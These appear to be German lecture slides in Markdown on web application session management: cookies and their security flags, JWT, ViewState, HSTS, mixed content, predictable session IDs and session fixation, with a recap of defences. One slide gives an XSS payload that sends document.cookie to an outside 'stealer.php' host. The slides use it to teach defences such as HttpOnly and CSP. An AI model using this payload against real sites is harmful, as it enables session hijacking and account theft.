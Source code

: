 ```yaml
---
author: Andreas Happe
title: Web Application Security
--- 
```


# Session Management

* Recap: [Warum Sessions?](https://andreashappe.github.io/lecture-web-security/build/0x03_web_applications.md.html#/sessions)

## Gewünschter Session-Ablauf

* Während des Logins wird ein neues Session-Token/Cookie generiert
* Bei jedem Folge-Zugriff wird über dieses Token an den Server übertragen
* (Die Benutzeridentität wird geprüft)
* Beim Logout wird das Token im Browser gelöscht und am Server als inaktiv vermerkt
* Logout aller Sessions sollte möglich sein

## Client vs. Server-Side Session

* Mit Cookies können unterschiedliche Systeme gebaut werden

## Client-Seitig

* Direktes Speichern der Daten im Cookie
* Integrität und Confidentiality muss durch Applikation sichergestellt werden
* Serverseitiges Invalidieren von Sessions schwer möglich

## Server-Seitig

* server-seitig: Random Key (Session ID) im Cookie
* Server-Datenbank über die der Random-Key einem Benutzer zugeordnet wird
* Möglichkeit der Session-Invalidation
* Keine sensiblen Daten innerhalb der Client-Cookies

# Session-Technologien

## Cookie-based Sessions

* Cookie wird durch den Server gesetzt
* Cookie wird bei jedem Request automatisch durch den Browser mit übertragen
* Möglichkeit des Session-Timeouts und optionale Security-Flags

## Cookie-Beispiele

``` http
Set-Cookie: sessionid1=0xbadc0ffee;
Set-Cookie: sessionid2=0xbadc0ffee;Max-Age=42;
Set-Cookie: sessionid3=0xbadc0ffee;Secure;HttpOnly;SameSite=Lax
Set-Cookie: sessionid4=0xbadc0ffee;Path=/
Set-Cookie: sessionid4=0xbadc0ffee;Path=/;Domain=snikt.net
```

## Client-Side: Tokens

* Server überträgt signiertes Token an Client
* Analog zu Kerberos
* Das Token enthält Zugriffsberechtigungen und wird (hoffentlich) signiert
* Sollte Datenbankabfragen am Server beim Zugriff vermeiden
* Häufig verwendet: [JSON Web Token](https://jwt.io)

## JWT: für Sessions?

![Picture](0x05_jwt_sessions.png){.stretch}

## ViewState

* ViewState beschreibt die Sicht des Client
  * beinhaltet z. B. noch nicht am Server gespeicherte Daten
  * Teilweise als State-Model (welche Aktionen kann der User durchführen)
* Client schickt den ViewState bei jeder Operation mit (HTML hidden form)
* Bei jeder Operation vergleicht der Server ob der ViewState passt

## Viewstate: Security

* Client- oder Server-Seitig Möglich
* Server-Seitig:
  * sehr analog zu einer server-seitigen Cookie-Session
* Client-Seitig: 
  * ViewState muss integritätsgeschützt werden
  * ViewState sollte verschlüsselt werden
  + Wenn StateModel: erschwert Angriffe

# Probleme

## Problem: Session-ID wird verloren

* Verwendung von unverschlüsselten HTTP

![Picture](0x05_session_hijacking.JPG){.stretch}

## Wie kann HTTPS erzwungen werden

* Cookie mit Secure-Flag: Cookie wird nur mittels HTTPS übertragen
* HSTS: Browser macht ein upgrade auf HTTPS bei Folgezugriffen
* CSP: Browser macht ein upgrade auf HTTPS bei Folgezugriffen

Beispiele eines HTTP Response mit gesetzten Header:

``` http
Strict-Transport-Security: max-age=31536000; includeSubDomains
Set-Cookie: CookieName=Wert; path=/; secure
```

## Warum ist ein automatic redirect zu HTTPS nicht ausreichend?

## Problem: Mixed-Content

* Cookie Drive-By, um 2010/2011 herum
* nur Login wird mit HTTPS geschützt
* Rest der Seite mittels HTTP

## Tool: Firesheep

![Picture](0x05_firesheep.png){.stretch}

## Mixed-Content: Current Situation

* Mittlerweile: active mixed-content wird by default geblockt
* Chrome will Download von "gefährlichen" Inhalten mittels HTTP unterbinden

## Problem: Session-ID vorher-bestimmbar

* Angreifer darf Session-ID nicht erraten können
* Schlechte Ideen:
  * aufsteigende Zahlen
  * MD5 auf die Systemzeit
* Immer einen guten Zufallszahlengenerator verwenden
* Entropie-Check der Session-Id

## XSS Lücke

* Annahme: die Webapplikation hat eine XSS-Lücke

![Picture](0x05_session_hijack_xss.png){.stretch}
  
## Beispiel XSS Extraction

```html
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
```

## Lösung für XSS-Lücke

* keine XSS Lücken implementieren
* httpOnly-Flag bei Session Cookies setzen
* CSP verwenden

```
Set-Cookie: CookieName=Wert; path=/; HttpOnly
```

## Problem: Session-ID als GET-Parameter

* wird dadurch in Proxies, Caches, etc. gespeichert
* auch in Browser Historie
* Lösung: Verwendung eines Session-Cookies
* Work-Around: Verwendung von POST Requests

## Problem: Session-Fixation

* Nicht Vorbestimmen der Session, sondern Erzwingen einer Session-ID
* Operation mit Session als HTTP GET Parameter
* Social Engineering

## Problem: Session-Fixation

![Picture](0x05_session_fixation.jpg){.stretch}

* Lösung: Session-ID während Login neu generieren
* Hint: Session bei Logout löschen ist optional

# Recap

## Recap: Session-Management

* serverseitige Sessions verwenden
* SessionId während Login neu setzen
* SessionId während Logout löschen
* Immer/ausschließlich HTTPS verwenden
* Session-Timeouts und Security-Flags verwenden
* SessionId mit kryptographischen Zufallsgenerator erstellen

## Fin
